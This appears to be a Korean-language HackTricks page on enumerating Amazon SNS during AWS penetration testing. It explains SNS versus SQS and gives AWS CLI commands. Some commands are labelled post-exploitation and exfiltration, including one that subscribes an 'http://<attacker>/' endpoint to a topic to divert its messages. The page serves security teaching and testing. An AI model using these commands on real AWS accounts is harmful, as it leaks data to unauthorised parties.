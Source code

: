 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS)는 **완전 관리형 메시징 서비스**로 설명됩니다. 이 서비스는 **애플리케이션 간** (A2A) 및 **애플리케이션 대 개인** (A2P) 통신 유형을 모두 지원합니다.

A2A 통신을 위한 주요 기능에는 **게시/구독 (pub/sub) 메커니즘**이 포함됩니다. 이러한 메커니즘은 **주제**를 도입하여 높은 처리량의 **푸시 기반, 다대다 메시징**을 가능하게 합니다. 이 기능은 분산 시스템, 마이크로서비스 및 이벤트 기반 서버리스 아키텍처와 관련된 시나리오에서 매우 유리합니다. 이러한 주제를 활용함으로써 게시자 시스템은 **광범위한 구독자 시스템**에 메시지를 효율적으로 배포하여 팬아웃 메시징 패턴을 촉진할 수 있습니다.

### **SQS와의 차이점**

**SQS**는 **큐 기반** 서비스로, 포인트 투 포인트 통신을 허용하여 메시지가 **단일 소비자**에 의해 처리되도록 보장합니다. 이 서비스는 **최소 한 번 전달**을 제공하며, 표준 및 FIFO 큐를 지원하고, 재시도 및 지연 처리를 위한 메시지 보존을 허용합니다.\
반면에 **SNS**는 **게시/구독 기반 서비스**로, 메시지를 **여러 구독자**에게 동시에 방송하여 **일대다** 통신을 가능하게 합니다. 이 서비스는 **이메일, SMS, Lambda 함수 및 HTTP/HTTPS**와 같은 다양한 구독 엔드포인트를 지원하며, 목표 메시지 전달을 위한 필터링 메커니즘을 제공합니다.\
두 서비스 모두 분산 시스템의 구성 요소 간의 분리를 가능하게 하지만, SQS는 큐 통신에 중점을 두고, SNS는 이벤트 기반 팬아웃 통신 패턴을 강조합니다.

### **열거**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> **주제의 유형이 FIFO인 경우**, **SQS** 프로토콜을 사용하는 구독자만 사용할 수 있습니다 (HTTP 또는 HTTPS는 사용할 수 없습니다).
>
> 또한, `--topic-arn`에 지역이 포함되어 있더라도 **`--region`**에서 올바른 지역을 지정해야 하며, 그렇지 않으면 접근 권한이 없다는 오류가 발생하지만 문제는 지역입니다.

#### 인증되지 않은 접근

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### 권한 상승

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### 포스트 익스플로잇

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### 지속성

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## 참고자료

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
